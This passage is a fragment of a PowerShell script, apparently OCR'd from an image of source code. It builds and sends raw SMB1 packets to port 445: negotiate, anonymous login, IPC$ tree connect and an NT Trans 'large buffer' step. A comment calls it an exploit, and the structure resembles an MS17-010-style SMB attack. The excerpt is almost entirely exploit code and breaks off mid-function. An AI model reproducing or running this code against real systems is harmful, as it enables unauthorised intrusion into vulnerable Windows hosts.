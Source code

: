      }
     catch {
      # # Write-Verbose "socket error, exploit may fail "
     }
    $netbios = $tcp_response[0..4]
    $smb_header = $tcp_response[4..36]  # SMB Header: 32 bytes
    $parsed_header = smb_header($smb_header)

    return $tcp_response, $parsed_header

}


function client_negotiate($sock){
$raw_proto = negotiate_proto_request
    $sock.Send($raw_proto) | out-null
    return smb1_get_response($sock)

}

function smb1_anonymous_login($sock){
    $raw_proto = make_smb1_anonymous_login_packet
    $sock.Send($raw_proto) | out-null
   return smb1_get_response($sock)


}

function tree_connect_andx($sock, $Target, $userid){
    $raw_proto = tree_connect_andx_request $Target $userid
    $sock.Send($raw_proto) | out-null
   return smb1_get_response($sock)


}


function smb1_anonymous_connect_ipc($Target)
{
    $client = New-Object System.Net.Sockets.TcpClient($Target,445)

    $sock = $client.Client
    client_negotiate($sock) | Out-Null

    $raw, $smbheader = smb1_anonymous_login $sock

    $raw, $smbheader = tree_connect_andx $sock $Target $smbheader.user_id


    return $smbheader, $sock



}


function smb1_large_buffer($smbheader,$sock){

    $nt_trans_pkt = make_smb1_nt_trans_packet $smbheader.tree_id $smbheader.user_id

    # send NT Trans
